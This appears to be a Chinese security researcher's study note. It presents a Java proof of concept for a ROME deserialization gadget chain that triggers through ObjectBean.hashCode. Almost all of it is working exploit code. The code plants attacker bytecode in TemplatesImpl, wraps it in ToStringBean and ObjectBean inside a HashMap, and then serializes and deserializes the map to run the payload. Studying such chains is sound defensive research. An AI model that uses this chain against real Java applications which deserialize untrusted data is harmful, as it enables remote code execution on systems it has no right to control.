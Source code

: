 ### ​`EqualsBean.class#hashcode`​​

相当于跳过了一步吧，感觉没啥用只能说是一种变形

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class ROME_ObjectBean_hashCode {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {payloads});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        HashMap hashMap = new HashMap&lt;&gt;();
        hashMap.put(objectBean, "123");

//        serialize(hashMap);
        unserialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

